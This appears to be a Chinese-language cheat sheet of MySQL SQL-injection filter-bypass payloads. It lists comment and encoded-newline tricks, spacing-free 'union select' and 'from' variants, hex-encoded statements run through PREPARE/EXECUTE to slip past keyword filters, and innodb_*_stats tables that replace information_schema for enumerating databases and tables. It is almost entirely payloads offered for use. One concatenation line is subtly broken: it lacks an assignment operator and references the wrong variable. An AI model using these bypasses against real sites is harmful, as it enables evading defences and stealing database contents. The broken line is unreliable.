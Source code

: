 ```
/**/、--+、#、;%00、union /*!select*/（mysql独有）
```

##### select from union select绕过

```sql
select-1,user from mysql.user
select@1,user from mysql.user
select~1,user from mysql.user
select`user`,user from mysql.user
select(1),user from mysql.user
select'1',user from mysql.user
select+1,user from mysql.user

select 1,1e2from mysql.user
select 1,.9from mysql.user
select 1``from mysql.user
select 1''from mysql.user
select 1'123'from mysql.user
select '1'''from mysql.user
select 1""from mysql.user
select "1"""from mysql.user

select 1 from mysql.user where user=.1union select 1
select 1 from mysql.user where user=1e1union select 1
select 1 union--%0aselect 2
select 1 union--%0e%0aselect 2
select 1 union all select 2
```

##### set绕过

```sql
select '123' into @a
select @a:='123'
select 1 from mysql.user where @a:='123'
do @a:='123'
```

##### .绕过(点绕过)//select,from等关键字绕过都可以使用

```sql
select 0x73656c65637420757365722066726f6d206d7973716c2e75736572 into @s;prepare a from @s;EXECUTE a; //0x736... =>'select user from mysql.user'
set @a concat('select user from mysql',char(46),'user');prepare a from @s;EXECUTE a; 
```

##### information_schema绕过

```sql
select table_name from mysql.innodb_index_stats 表名 
select database_name from mysql.innodb_index_stats 库名 
select table_name from mysql.innodb_table_stats 表名 
select database_name from mysql.innodb_table_stats 库名
```
